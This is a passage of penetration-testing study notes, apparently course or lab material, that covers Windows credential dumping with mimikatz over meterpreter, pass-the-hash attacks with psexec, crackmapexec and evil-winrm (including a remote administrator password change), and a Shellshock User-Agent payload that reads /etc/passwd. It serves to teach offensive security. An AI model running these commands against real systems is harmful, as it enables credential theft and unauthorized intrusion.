 - `meterpreter > mkdir Temp`
- `meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
- `meterpreter > shell`
- `.\mimikatz.exe`
- `mimikatz # privilege::debug` - for checking privileges for hash dumping
- `mimikatz # lsadump::sam`
- `mimikatz # lsadump::secrets`
- `mimikatz # sekurlsa::logonpasswords`

### Pass-The-Hash attacks

It is an **exploitation** technique to **gather** and **use** NTLM hashes for authentication.

With: `crackmapexec`, `exploit/windows/smb/psexec`, and `evil-winrm` in metasploit

- `meterpreter > **hashdump**` - gives LM and NTLM hashes of all users
    - aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6 - ***LM:NTLM***
- use `exploit/windows/smb/psexec`, `set RHOSTS, LHOST, SMBUser`
    - `set **SMBPass <LM:NTLM>` - we can set this as a hash as well**
    - `set SMBPass aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6`

OR

- `crackmapexec smb <ip> -u administrator -H '<NTLM_hash>'` - `crackmapexec smb <ip> -u administrator -H '4d6583ed4cef81c2f2ac3c88fc5f3da6'`
- `crackmapexec smb <ip> -u administrator -H '<NTLM_hash>' -x 'ifconfig'` - code execution with (`-x`)
- `crackmapexec smb <ip> -u administrator -H '<NTLM_hash>' -x 'net user administrator password123’` - changing the password
- `evil-winrm -u administrator -H <NTLM> -i <ip>` - if WinRM service is up, it gives a meterpreter session

## Exploiting Linux Services

Linux is an open-source OS, developed by Linus Torvalds, and GNU toolkit.

| Apache web server | 80/443/TCP | Open-source web server for Linux machines |
| --- | --- | --- |
| FTP (File Transfer Protocol) | 21/TCP | File transfering between server/client. Also used for web servers.  |
| SSH (Secure Shell) | 22/TCP | Remote access protocol (cryptographic) over an unsecured network. Successor to telnet |
| SAMBA | 445/TCP | Open-source implementation of SMB on Linux. Allows windows devices to access to Linux |

### Bash CVE-2014-6271 (Shellshock) Vulnerability

Shellshock is the general name of **Bash** vulnerabilities, that allow an attacker to execute **arbitrary** commands, whereby Bash mistankenly executes trailing **commands** after some characters.

Apache servers are configured to run **CGI** (Common Gateway Interface) or .sh scripts, they are also vulnerable to this attack. CGI scripts are (can be) written in Bash (python, perl, etc)

**CGI** is a server-side script, contrary to JavaScript.

- `nmap -p80 —script=http-shellshock —script-args=’http-shellshock.uri=<cgi_directory>’ <ip>` - checking the vulnerability
- Using Burpsuite: Send to Repeater
- Using Burpsuite: Deleting User-Agent info
- Using Burpsuite: User-Agent: () { :; }; echo; echo; /bin/bash -c ‘cat /etc/passwd’
